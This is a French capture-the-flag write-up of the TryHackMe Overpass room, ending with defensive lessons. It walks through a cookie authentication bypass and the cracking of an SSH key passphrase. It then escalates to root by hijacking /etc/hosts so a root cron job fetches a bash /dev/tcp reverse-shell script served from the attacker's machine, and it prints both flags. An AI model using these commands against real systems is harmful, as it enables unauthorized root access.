---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - Gobuster
  - John
  - SSH
  - PrivilegeEscalation
---

# Overpass - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Web, Authentification, SSH, Privilege Escalation |
| **Prérequis** | Bases de Linux, manipulation de cookies, énumération web, utilisation de John the Ripper |

## Contexte et objectifs

Dans la room Overpass, vous incarnez un attaquant qui doit exploiter une application web vulnérable pour obtenir un accès initial, puis escalader ses privilèges jusqu'à root. L'objectif est de comprendre comment une mauvaise gestion de l'authentification et des permissions système peut mener à une compromission totale.

!!! info "À propos de cette room"
    Cette room est idéale pour s'entraîner à l'exploitation de failles web courantes (authentification cassée), à la manipulation de clés SSH, et à la découverte de vecteurs d'escalade de privilèges sur un système Linux. Elle met l'accent sur la logique d'attaque et la compréhension des faiblesses de configuration.

## Méthodologie

### Étape 1 : Découverte des services ouverts avec Nmap

Avant toute attaque, il est essentiel de cartographier les services exposés par la machine cible. Cela permet d'identifier les points d'entrée potentiels.

```bash
nmap -sV -p- <IP_cible>
```

!!! tip "Pourquoi cette commande ?"
    Nmap permet de scanner tous les ports TCP ouverts (`-p-`) et d'identifier les versions des services (`-sV`). C'est la première étape de toute phase d'énumération.

Le scan révèle que les ports 22 (SSH) et 80 (HTTP) sont ouverts. Nous avons donc un service web à explorer et un accès SSH potentiel.

[](./screen/overpass/WindowsTerminal_M3WiEcyFFx.png)

### Étape 2 : Énumération du site web et recherche de pages cachées

En visitant `http://<IP_cible>`, on tombe sur la page de présentation du logiciel Overpass - rien d'exploitable directement en surface. On lance une énumération de répertoires pour découvrir des chemins cachés :

```bash
gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

!!! tip "Pourquoi utiliser Gobuster ?"
    Gobuster permet de découvrir des répertoires ou fichiers cachés en testant des milliers de chemins courants. C'est un outil incontournable pour l'énumération web.

Le scan met en évidence un répertoire `/admin`, qui semble être une interface d'administration.

[](./screen/overpass/WindowsTerminal_dQhzVGFTB3.png)

### Étape 3 : Analyse de la page d'administration et du code JavaScript

L'accès à `/admin` affiche une page de connexion. Plutôt que de tenter un bruteforce, il est judicieux d'analyser le code source de la page, notamment les fichiers JavaScript qui peuvent permettre de comprendre la logique d'authentification.

[](./screen/overpass/msrdc_0dGyISt8D3.png)

En inspectant le code (clic droit > Inspecter > Sources), on repère un fichier `login.js`. Son analyse montre que :

- Si la réponse du serveur n'est pas "Incorrect credentials", le script crée un cookie `SessionToken` et redirige vers `/admin`.
- Aucune vérification côté serveur n'est faite sur la valeur du cookie.

[](./screen/overpass/msrdc_MsGTPLinNw.png)

Cela suggère une faille d'authentification : il suffit de créer un cookie `SessionToken` avec n'importe quelle valeur (sauf "Incorrect credentials") pour être considéré comme authentifié.

### Étape 4 : Contournement de l'authentification via manipulation de cookie

Nous allons donc exploiter cette faiblesse en créant manuellement le cookie dans notre navigateur.

1. Ouvrir les outils de développement (F12).
2. Aller dans l'onglet "Stockage" > "Cookies".
3. Ajouter un cookie nommé `SessionToken` avec une valeur arbitraire (par exemple `admin`).
4. Rafraîchir la page `/admin`.

[](./screen/overpass/4RzycMwMZ5.png)

[](./screen/overpass/msrdc_WBSD5fV3Ph.png)

On accède alors à la page d'administration, qui révèle un nom d'utilisateur (`james`) et une clé privée SSH protégée par mot de passe.

[](./screen/overpass/Gz1SWhmXGC.png)

### Étape 5 : Récupération et préparation de la clé privée SSH

Maintenant que nous avons une clé privée SSH, l'étape suivante consiste à l'utiliser pour se connecter en SSH. Mais la clé est protégée par un mot de passe (passphrase). On va donc faire les étapes suivantes pour réussir à trouver la passphrase :

1. Copier la clé privée dans un fichier local, par exemple `id_rsa`.
2. Générer un hash compatible avec John the Ripper grâce à `ssh2john.py` :

```bash
ssh2john id_rsa > id_rsa.hash
```

### Étape 6 : Brute-force du mot de passe de la clé SSH avec John the Ripper

Une fois fait, on utilise John the Ripper pour craquer le mot de passe.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

!!! info "Qu'est-ce que John the Ripper ?"
    John the Ripper est un outil de brute-force de mots de passe. Il prend en entrée des hashs et tente de les casser à l'aide de dictionnaires.

Après quelques instants, John affiche la passphrase de la clé : `james13`.

[](./screen/overpass/WindowsTerminal_yY6x8ppYTS.png)

### Étape 7 : Connexion SSH avec la clé privée

Il ne reste plus qu'à se connecter en SSH avec la clé et la passphrase trouvée.

```bash
chmod 600 id_rsa
ssh -i id_rsa james@<IP_cible>
```

Au prompt `Enter passphrase for key 'id_rsa':`, on saisit `james13`.

[](./screen/overpass/WindowsTerminal_JBkZCkfYMT.png)

Une fois connecté, on trouve le fichier `user.txt` dans le dossier personnel de james.

```bash
cat user.txt
```

[](./screen/overpass/WindowsTerminal_IzUmpy35mH.png)

!!! success "Réponse"
    **Flag utilisateur** → `thm{65c1aaf000506e56996822c6281e6bf7}`

### Étape 8 : Recherche d'un vecteur d'escalade de privilèges

Pour obtenir le flag root, il faut escalader ses privilèges. Un bon réflexe est de lire les fichiers intéressants dans le home, comme dans notre cas de figure `todo.txt`, qui mentionne un script d'automatisation.

[](./screen/overpass/WindowsTerminal_Ad4xyVKuOV.png)

Un script d'automatisation est généralement déclenché par une tâche planifiée. On vérifie donc le fichier `/etc/crontab`, où sont définies les tâches cron du système. En le lisant, on découvre une tâche planifiée exécutée en tant que root

[](./screen/overpass/W0dkKJ7pI0.png)

!!! info "Qu'est-ce qu'une tâche cron ?"
    Les tâches cron permettent d'exécuter automatiquement des commandes ou scripts à intervalles réguliers. Ici, le script est téléchargé depuis le domaine `overpass.thm` et exécuté en tant que root.

Le script est téléchargé depuis un nom de domaine, et non une IP : si on contrôle la résolution de ce domaine sur la machine cible, on contrôle ce qui est téléchargé et exécuté en root. On vérifie donc comment `overpass.thm` est résolu localement.

Sur un système Linux, `/etc/hosts` est le fichier de résolution locale des noms de domaine. Il est consulté **avant** les serveurs DNS : si une entrée y est présente, c'est elle qui fait foi, quelle que soit la réponse DNS.

Par défaut, ce fichier appartient à `root` et ne doit être modifiable que par lui (`-rw-r--r--`). Dans notre cas, les permissions sont `rw-rw-rw-` : **tout utilisateur du système peut le modifier**.

!!! danger "Impact de cette mauvaise configuration"
    Combinée à la tâche cron qui télécharge et exécute un script depuis `overpass.thm`, cette permission permet à n'importe quel utilisateur compromis de :

    1. Rediriger le domaine `overpass.thm` vers sa propre machine en modifiant `/etc/hosts`.
    2. Héberger un script malveillant à l'emplacement attendu.
    3. Faire exécuter ce script par la cron **en tant que root**, sans aucune interaction supplémentaire.

    C'est un exemple classique de **chaîne d'exploitation** : deux faiblesses séparées (cron non sécurisé + fichier système trop permissif) qui, combinées, permettent une compromission totale.

### Étape 9 : Exploitation de la mauvaise gestion des permissions sur /etc/hosts

Pour que la machine cible télécharge notre propre script malveillant, il suffit de faire pointer le domaine `overpass.thm` vers notre IP. Or, comme nous venons de le voir à l'étape précédente, le fichier `/etc/hosts` est modifiable par l'utilisateur james :

```bash
ls -l /etc/hosts
```

[](./screen/overpass/WindowsTerminal_x81GxMne3S.png)

On édite alors `/etc/hosts` pour modifier la ligne suivante :

```
<VOTRE_IP> overpass.thm
```

[](./screen/overpass/WindowsTerminal_kHXa7PjhWs.png)

### Étape 10 : Mise en place du reverse shell pour obtenir un accès root

Sur notre machine d'attaque, on prépare le script malveillant. On commence par créer l'arborescence attendue, qui doit reproduire le chemin `downloads/src/buildscript.sh` ciblé par la tâche cron :

```bash
mkdir -p downloads/src
```

On y crée ensuite le fichier `buildscript.sh` avec un reverse shell :

```bash
echo 'bash -i >& /dev/tcp/<VOTRE_IP>/4444 0>&1' > downloads/src/buildscript.sh
chmod +x downloads/src/buildscript.sh
```

On lance ensuite un serveur web pour héberger ce script et le rendre accessible à la cible :

```bash
python3 -m http.server 80
```

Enfin, on lance un listener netcat pour recevoir le shell :

```bash
nc -lvnp 4444
```

Après une minute (le cron s'exécute chaque minute), une connexion root apparaît sur notre netcat. Le serveur HTTP confirme que la cible a bien récupéré notre script :

[](./screen/overpass/WindowsTerminal_OjKqgIros6.png)

On peut alors lire le flag root :

```bash
cat /root/root.txt
```

[](./screen/overpass/WindowsTerminal_cVz9y3WGpR.png)

!!! success "Réponse"
    **Flag root** → `thm{7f336f8c359dbac18d54fdd64ea753bb}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Authentification cassée, permissions trop larges sur /etc/hosts, exécution de code via cron |
| **Techniques utilisées** | Énumération web, manipulation de cookies, brute-force de clé SSH, détournement de cron, reverse shell |
| **Outils employés** | Nmap, Gobuster, John the Ripper, ssh2john, SSH, Netcat, Python HTTP server |

!!! abstract "Ce qu'il faut retenir"
    1. Toujours analyser le code côté client (JavaScript) pour détecter des failles d'authentification.
    2. Les permissions système mal configurées (comme un /etc/hosts modifiable) sont des portes d'entrée majeures pour l'escalade de privilèges.
    3. Les tâches cron exécutées en tant que root doivent être surveillées et sécurisées pour éviter l'exécution de code arbitraire.
